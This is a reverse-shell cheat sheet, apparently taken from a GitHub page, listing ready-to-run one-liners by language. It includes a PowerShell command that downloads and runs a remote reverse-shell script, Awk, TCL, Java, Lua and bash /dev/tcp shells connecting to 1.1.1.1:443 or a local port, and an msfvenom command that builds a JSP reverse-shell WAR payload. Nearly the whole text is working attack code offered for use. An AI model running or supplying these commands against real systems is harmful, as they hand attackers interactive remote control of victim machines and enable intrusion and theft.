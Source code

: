 `powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')`

# Awk:

`awk 'BEGIN {s = "/inet/tcp/0/1.1.1.1/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`

# TCLsh

`echo 'set s [socket 1.1.1.1 443];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh`

# Java:

`r = Runtime.getRuntime()`
`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])`
`p.waitFor()`

`String host="127.0.0.1";`
`int port=4444;`
`String cmd="cmd.exe";`
`Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`

`Thread thread = new Thread(){`
    `public void run(){`
        `// Reverse shell here`
    `}`
`}`
`thread.start();`

# War:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f war > reverse.war`
`strings reverse.war | grep jsp # in order to get the name of the file`

# Lua:

`Linux only`
`lua -e "require('socket');require('os');t=socket.tcp();t:connect('1.1.1.1','443');os.execute('/bin/sh -i <&3 >&3 2>&3');"`
